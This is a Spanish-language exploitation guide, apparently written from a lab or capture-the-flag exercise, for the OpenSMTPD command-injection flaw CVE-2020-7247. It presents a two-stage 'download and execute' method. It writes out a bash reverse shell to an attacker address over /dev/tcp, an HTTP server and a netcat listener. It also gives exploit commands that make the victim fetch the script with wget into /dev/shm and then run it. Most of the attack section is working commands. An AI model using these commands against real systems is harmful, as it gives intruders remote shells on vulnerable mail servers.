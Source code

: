 # **Explotación Fiable de OpenSMTPD (CVE-2020-7247): Técnica Multi-Fase con Descarga y Ejecución**

La explotación de vulnerabilidades de inyección de comandos a menudo presenta desafíos que impiden el éxito de un "one-liner" (un payload de una sola línea). Caracteres especiales, limitaciones de longitud o validaciones del servicio intermediario pueden hacer que el payload falle.

La estrategia profesional para superar estos obstáculos es desacoplar el ataque en múltiples fases. El siguiente método, **"Descargar y Ejecutar" (Download and Execute)**, es una técnica robusta que aumenta drásticamente la probabilidad de éxito.

## 1\. Fundamentos de la Estrategia Multi-Fase

Este enfoque se divide en dos pasos discretos y lógicos:

1.  **Fase 1 - Entrega del Payload**: Utilizar la vulnerabilidad una primera vez con un único propósito: forzar al sistema víctima a descargar nuestro script malicioso desde un servidor que controlamos y guardarlo en una ubicación escribible del sistema de archivos (como `/dev/shm` o `/tmp`).
2.  **Fase 2 - Activación del Payload**: Utilizar la vulnerabilidad una segunda vez para ejecutar un comando muy simple: el que lanza el script que acabamos de subir.

**Ventajas de este método:**

  * **Fiabilidad**: Los comandos para descargar (`wget`, `curl`) y ejecutar (`bash`, `sh`) son simples y no contienen metacaracteres complejos que puedan ser filtrados.
  * **Flexibilidad**: El script de reverse shell puede ser tan complejo como sea necesario, ya que su contenido no pasa directamente por el servicio vulnerable.
  * **Depuración Sencilla**: Si algo falla, es más fácil diagnosticar en qué fase ocurrió el problema (¿falló la descarga o la ejecución?).

## 2\. Prerrequisitos para la Explotación

1.  **Destinatario Válido**: El exploit de OpenSMTPD requiere que el comando `RCPT TO` se envíe a un destinatario de correo que el servidor reconozca como válido. Es imprescindible haber enumerado previamente un usuario existente en el sistema y haberlo configurado en el script del exploit.
2.  **Servidor HTTP Local**: Se debe tener un servidor web simple en la máquina del atacante para alojar el script de la reverse shell.

## 3\. Proceso de Explotación (Caso Práctico)

### **Paso 1: Preparar el Entorno del Atacante**

1.  **Crear el script de la reverse shell**:
    En la máquina del atacante, crear un archivo (ej. `index.html` o `shell.sh`) con el contenido de la shell. Es importante incluir el "shebang" (`#!/bin/bash`) para asegurar que se interprete con Bash.
    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    ```
2.  **Iniciar el servidor web**:
    Desde el directorio donde se guardó el script, iniciar un servidor HTTP simple.
    ```bash
    python3 -m http.server 80
    ```
3.  **Iniciar el listener de Netcat**:
    Preparar el listener para recibir la conexión entrante.
    ```bash
    nc -lvnp 443
    ```

### **Paso 2: Ejecutar la Fase 1 (Descarga del Payload)**

Utilizar el exploit para ejecutar un comando `wget` en el servidor víctima. Este comando descargará el script desde nuestro servidor y lo guardará en `/dev/shm/reverse`. El directorio `/dev/shm` es una excelente elección, ya que es una partición en memoria y suele ser escribible por la mayoría de los usuarios.

```bash
proxychains4 -q python3 47984.py 10.241.251.113 25 'wget 10.10.14.7 -O /dev/shm/reverse'
```

  * **Análisis del Comando**:
      * `wget 10.10.14.7`: Descarga el archivo `index.html` (por defecto) de nuestro servidor.
      * `-O /dev/shm/reverse`: Guarda el contenido descargado en el archivo `/dev/shm/reverse`.

Una vez ejecutado, el exploit confirmará el envío (`[*] Payload sent`). En los logs de nuestro servidor Python, deberíamos ver una petición GET desde la IP de la víctima.

### **Paso 3: Ejecutar la Fase 2 (Activación del Payload)**

Ahora que el script malicioso está en su sitio, se vuelve a lanzar el exploit con un comando diferente y muy simple: ejecutar el script con `bash`.

```bash
proxychains4 -q python3 47984.py 10.241.251.113 25 'bash /dev/shm/reverse'
```

  * **Análisis del Comando**:
      * `bash /dev/shm/reverse`: Le dice al sistema que interprete y ejecute el archivo con Bash. No se necesita `chmod +x` porque se está invocando el intérprete directamente.

Inmediatamente después de ejecutar este comando, el listener de `netcat` debería recibir la conexión, otorgando una shell interactiva en el sistema comprometido.